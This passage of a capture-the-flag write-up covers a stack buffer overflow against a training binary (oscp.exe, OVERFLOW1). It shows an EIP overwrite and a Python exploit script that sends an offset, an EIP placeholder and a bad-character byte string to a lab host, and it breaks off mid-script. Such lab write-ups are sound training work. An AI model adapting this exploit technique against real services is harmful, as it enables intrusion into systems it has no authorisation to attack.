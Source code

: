 Executed the exploit and overwritten the EIP register:

```bash
┌──(kali㉿kali)-[~/CTFs/THM/Buffer-Overflow-Prep/oscp.exe-1]
└─$ python exploit.py
Fuzzing with 5014 bytes
```

![Arbitrary data within EIP](../../zzz_res/attachments/Pasted_image_20210502174636.png)

Arbitrary data within EIP

## Find all the badchars

Updated the exploit:

```python
#!/usr/bin/python
import socket

ip = '10.10.208.211'
port = 1337

cmd = "OVERFLOW1 /.:/"
crash = 5000
offset = "A" * 1974
EIP = "B" * 4
#filler = "C" * (crash - (len(offset) + len(EIP) ))
badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )

payload = cmd + offset + EIP + badchars

print "Fuzzing with %s bytes" % len(payload)
try:
```